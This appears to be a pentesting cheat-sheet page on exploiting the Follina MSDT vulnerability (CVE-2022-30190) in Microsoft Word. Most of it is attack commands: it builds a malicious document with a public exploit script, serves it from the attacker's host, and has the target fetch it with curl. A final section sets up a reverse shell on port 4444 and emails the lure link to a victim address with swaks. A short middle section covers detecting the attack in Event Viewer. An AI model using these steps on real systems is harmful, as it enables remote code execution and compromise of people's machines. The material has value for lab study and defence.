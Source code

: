 ```yaml
---
title: Microsoft Word Pentesting
desc: 
tags: [CVE-2022-30190, Follina, Microsoft, MSDT, Windows, Word]
alts: [Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## Follina MSDT (CVE-2022-30190)

Microsoft Support Diagnostic Tool (MSDT) is vulnerable with Follina.

1. **Download the Payload in Local Machine**

    Clone the payload from [msdt-follina](https://github.com/JohnHammond/msdt-follina){:target="_blank"}{:rel="noopener"}.

2. **Create the Maldoc in Local Machine**

    ```sh
    # -i: interface name
    python3 follina.py -i eth0
    ```

    Then a new maldoc named “follina.doc” will be created in the current directory.  
    Now you’ve started the web server.

3. **Open Another Web Server in Local Machine**

    Open another terminal  and move to the msdt-follina directory,  then start web server to transfer the maldoc to target machine.

    ```sh
    python3 -m http.server 3456
    ```

4. **Transfer the Maldoc to Target Machine**

    In target Windows machine, open powershell and execute the following command.

    ```sh
    cd ~/Desktop
    curl http://<local-ip>:3456/follina.doc -o follina.docx
    ```

5. **Open the Maldoc**

    In target machine, open the maldoc you transfered.

    ```sh
    .\follina.docx
    ```

6. **Check the Process Explorer of Sysinternals in Target Machine**

    Find interesting processes in the Process Explorer.

7. **Check the Event Viewer in Target Machine to Detect Suspicious Processes**

    1. **Go to "View" -> "Use Quick Filter"**

    2. **A search bar should appear on top of the logs. Choose “Find Event ID” on the right of the search bar, and enter “4688”(it means that “a new process has been created”) in a search bar.**

    3. **Open the Find (Ctrl+F) and enter “winword”. Then check the contents of results.**

    4. **Go to Options → Advanced Options**

- **Reverse Shell via SMTP**

    If the target uses SMTP, you may be able to reverse shell using it.  
    Start the exploit to wait for reverse connections.

    ```sh
    sudo python3 follina.py -i tun0 -p 80 -r 4444
    ```

    Send e-mail to the target machine via SMTP using [swaks](https://github.com/jetmore/swaks){:target="_blank"}{:rel="noopener"}.

    ```sh
    swaks --to victim@vulnerable.com --from test@test --server mail.vulnerable.com --body "http://<local-ip>/"
    ```